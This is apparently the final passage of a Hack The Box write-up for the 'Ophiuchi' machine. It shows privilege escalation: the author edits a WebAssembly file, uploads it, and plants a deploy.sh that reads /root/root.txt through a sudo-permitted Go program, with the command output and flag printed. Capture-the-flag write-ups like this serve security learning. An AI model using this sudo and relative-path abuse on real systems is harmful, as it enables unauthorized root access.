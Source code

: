 Using [wat2wasm](https://webassembly.github.io/wabt/demo/wat2wasm/) We just change the fourth line `(i32.const 0))` to `(i32.const 1))` and download the resulting wasm file.
We upload it on the box in our home folder and create a deploy.sh bash file to display the root flag:

    :::text
    kali@kali:~/pown/htb_Ophiuchi$ scp  test.wasm  admin@10.129.98.255:main.wasm
    admin@10.129.98.255's password:
    test.wasm

    admin@ophiuchi:~$ echo 'cat /root/root.txt' > deploy.sh
    admin@ophiuchi:~$ chmod +x deploy.sh
    admin@ophiuchi:~$ sudo /usr/bin/go run /opt/wasm-functions/index.go
    Ready to deploy
    d153e100b32fe456e149a86ef6468ac6

# Wrapping up

A very interesting box that I would recommend to beginners as it is mostly
straightforward with no rabbit hole.

